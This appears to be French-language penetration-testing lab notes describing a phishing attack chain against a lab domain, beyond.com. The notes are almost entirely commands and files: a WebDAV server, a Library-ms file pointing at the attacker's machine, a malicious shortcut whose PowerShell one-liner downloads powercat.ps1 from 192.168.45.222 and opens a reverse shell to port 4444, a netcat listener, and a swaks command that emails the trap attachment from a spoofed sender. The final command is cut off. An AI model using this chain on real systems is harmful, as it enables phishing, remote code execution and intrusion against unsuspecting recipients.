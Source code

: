 # Swaks Exploitation

## 1. Hébergement WebDAV

```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav
```

## 2. Création d'un fichier de configuration Library-ms sur Windows

Créer un fichier `config.Library-ms` avec le contenu suivant :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<KALI_MACHINE></url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

## 3. Création d'un raccourci malveillant sur Windows

Créer un raccourci `install.lnk` puis le transférer sur Kali via WebDAV :

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.222:8000/powercat.ps1'); powercat -c 192.168.45.222 -p 4444 -e powershell"
```

## 4. Démarrer un serveur Python sur Kali

```bash
python3 -m http.server 8000
```
(S'assurer que `powercat.ps1` est dans le répertoire du serveur.)

## 5. Écoute sur le port 4444

```bash
nc -lnvp 4444
```

## 6. Préparation du mail

Créer un fichier `body.txt` dans `/home/kali/beyond/` avec le contenu souhaité.

## 7. Envoi du mail piégé

```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap